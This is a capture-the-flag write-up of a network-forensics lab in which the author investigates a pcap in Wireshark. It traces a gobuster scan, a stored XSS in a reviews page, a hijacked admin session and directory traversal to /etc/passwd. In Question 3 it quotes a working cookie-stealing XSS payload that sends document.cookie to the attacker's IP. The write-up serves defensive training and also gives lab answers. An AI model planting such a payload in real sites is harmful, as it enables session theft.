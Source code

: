 ```yaml
---
title: "Cyberdefenders RetailBreach Lab"
date: 2025-01-04
media_subpath: /assets/posts/2025-01-04-cyberdefenders-retailbreach-lab
published: true
layout: post
categories:
- ctf
- blue team
tags:
- cyberdefenders
- blueteam
- network forensics
- wireshark
- pcap
- red team
---
```



### Question 1

To begin this lab, we'll first read over the README in the 'start here' directory. From this we gather the following information about the scenario

- We are a cybersecurity analyst for an online retailer platform called ShopSphere
- There has been an unusual pattern of administrative logins late at night suggesting a breach
- We have a pcap file `RetailBreach.pcap` to analyse with the option of a bunch of different tools like zeek, wireshark, networkminer, etc

Lets start by opening the pcap file with wireshark. Looking at the protocol hierarchy statistics in wireshark we notice the majority of the packets are HTTP packets and we also see there are some SSH packets. Lets first determine whether the administrative logins late at night are via the web page or via SSH directly to the machine

![protocol hierarchy img](proto_hierarchy_retailbreach.png)

But first lets determine the IP of our web server using the filter `http` in wireshark. The destination packets for all the HTTP GET requests are sent to `73.124.17.52` which means this is most likely the IP of the breached web server

Now, if we remove the filter and check all the conversations that took place, we can see there are two other IPs, `111.224.180.128` and `135.143.142.5`, where the conversation with the former involved a substantially larger amount of packets

We want to determine which of the two IPs was the attacker. Lets examine the conversations with each of them, first with the requests sent to and from the web servers /admin directory and /login.php page. Using the following filters

`ip.addr == 135.143.142.5 && http.request.uri contains "admin"`  
`ip.addr == 135.143.142.5 && http.request.uri contains "login.php"`

We can see there were only 6 separate GET requests to the /admin directory and 1 post request sent to login.php, and if we use the filter

`ip.addr == 135.143.142.5 && ssh`

there was no interaction with the web servers SSH server.

This confirms that the attackers ip is `111.224.180.128` due to the fact there were no multiple administrative login attempts from this IP

### Question 2

Now we want to find the brute-forcing tool the attacker used. Brute-forcing tools often use specific or default User-Agent strings to identify themselves. If we use the filter

`ip.addr == 111.224.180.128 && http` 

and scroll down slightly we see there was a large number of get requests sent to directorys which are most likely a brute-force attack (GET /.bash, GET /.passwd, etc), from looking at the HTTP headers in any one of these packets we see the following

![useragent img](useragent_retailbreach.png)

So our answer is gobuster

### Question 3

Now we want to determine the XSS payload utilised by the attacker to compromise the websites integrity. Since we are dealing with an XSS attack which was used to compromise the websites integrity we will be dealing with either a reflected or stored XSS attack. Both of these utilise POST requests so thats where we'll look using the filter 

`ip.addr == 111.224.180.128 && http.request.method == "POST"`

The result is only two packets. If we follow the TCP stream for each one, we find that the payload of the second packet contains the following

![xss_script img](xss_script_retailbreach.png)

Thus the XSS payload is 

`<script>fetch('http://111.224.180.128/' + document.cookie);</script>`

and it was posted to the `/reviews.php` page.

### Question 4

From reading question 4 and answering question 3 we now know that the attacker gained access via an XSS attack to an admin user, we can also deduce from this that it is likely that the admin users' IP was the one other IP within the pcap, `135.143.142.5`. So to find the answer we can filter for

`135.143.142.5 && http.request.uri contains "/reviews.php"`

since we know the ip and the page that contained the vulnerable input. The result is only two packets, if we follow the HTTP stream for each packet we see that in the HTTP response for the GET request sent by packet number 10106 contains the malicious script, so the answer is the UTC time at which packet 10106 was sent which is `29-03-2024 12:09:50`

### Question 5

Now we know the attacker's method: they exploited a stored XSS vulnerability in the /reviews.php page and used this vulnerability to steal an admin users session token, gaining admin access to the website. To get the session token which the attacker utilised we can look at the session token which was used in the GET request which was sent by the target to the vulnerable web page (packet number 10106).

![cookie img](cookie_retailbreach.png)

we can see that the cookie used is `PHPSESSID=lqkctf24s9h9lg67teu8uevn3q`, to confirm this we could correlate this to the cookie which was used by the attacker but since this is the only request where the target visited the compromised webpage with the stored XSS payload we can safely say that this was the cookie used by the attacker.

### Question 6

Now we are investigating a script on the web server which was exploited by the attacker and we also know the session token used so for our filter we are going to use

`ip.addr == 111.224.180.128 && http.request.uri contains "/admin" && http.cookie contains "lqkctf24s9h9lg67teu8uevn3q"`

The result is 5 packets; however, we also see a suspicious packet sent to /admin/log_viewer.php

![directory traversal img](dir_traversal_retailbreach.png)

so the attacker exploited the log_viewer.php script to perform a directory traversal to access the `/etc/passwd` file.

### Question 7

The attacker used directory traversal to access `/etc/passwd` therefore our answer for this is `/etc/passwd/`.
